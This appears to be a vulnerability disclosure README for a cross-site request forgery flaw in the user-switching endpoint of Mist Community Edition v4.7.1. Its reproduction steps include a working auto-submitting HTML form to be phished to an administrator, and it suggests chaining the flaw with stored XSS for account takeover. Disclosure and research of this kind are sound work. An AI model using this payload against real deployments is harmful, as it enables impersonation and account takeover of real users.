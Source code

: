 # CVE-2025-MIST-CSRF  
## Cross-Site Request Forgery (CSRF) in Admin's Switch User Operation

## 📜 Description
**Mist Community Edition (CE) v4.7.1** contains a **Cross-Site Request Forgery (CSRF)** vulnerability in the admin's user-switching operation. The vulnerable endpoint, `/su?email=<user email>`, allows administrators to impersonate users by simply visiting a crafted malicious page. Unlike other endpoints, this one lacks proper protection, which makes it vulnerable to exploitation. An attacker can craft a malicious HTML form that submits a request to the `/su` endpoint, enabling unauthorized actions within the context of an administrator’s session.

## 📌 Affected Version
- Mist Community Edition (CE) v4.7.1
- Other versions prior to v4.7.1 may also be affected

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**. Unauthorized testing on systems without explicit permission is illegal. Use responsibly and only on systems you own or have permission to test.

## 💻 Exploit Details

### 🔹 **CSRF Exploitation**
An attacker can exploit this vulnerability by phishing or tricking an administrator into visiting a malicious webpage. The crafted form sends a POST request to the vulnerable `/su?email=<user email>` endpoint, impersonating a specified user and performing actions on their behalf. This could lead to:
- **Unauthorized administrative actions**
- **Sensitive information disclosure**
- **Session hijacking**

### 🔹 **Chaining with Other Vulnerabilities**
This vulnerability can be combined with other weaknesses, such as the **Stored XSS** in the tag field, to further escalate attacks, potentially leading to **account takeover**.

## 🛠️ Steps to Reproduce

### 1️⃣ Craft Malicious HTML Form
Create a malicious HTML form designed to impersonate a specific user (e.g., `v@victim.com`). Here’s an example of the malicious form:
```html
<html>
  <body>
    <form action="http://192.168.1.5/su">
      <input type="hidden" name="email" value="v@victim.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState(‘’, ‘’, ‘/’);
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 2️⃣ Send Malicious Form to Administrator
- The attacker sends this crafted page to an administrator (e.g., via phishing or other social engineering techniques).
  
### 3️⃣ Administrator Visits Malicious Page
- Upon visiting the page, the form automatically submits, and the administrator is tricked into performing a user switch, impersonating the attacker’s specified user.
  
### 4️⃣ Exploiting the Admin's Session
- The admin unknowingly executes the malicious request, performing actions on behalf of the impersonated user.

## 🎬 Demonstration Video
<a href="https://youtu.be/M3AQ67t3ths" target="_blank">
  <img src="https://img.youtube.com/vi/M3AQ67t3ths/maxresdefault.jpg" width="700" height="380"/>
</a>

## 🧑‍💻 Discovery
- The **CVE-2025-XXXX** vulnerability was discovered by **Alex Perrakis (Stolichnayer)**.

## 🔗 References:
- [Mist CE Github Repository](https://github.com/mistio/mist-ce)

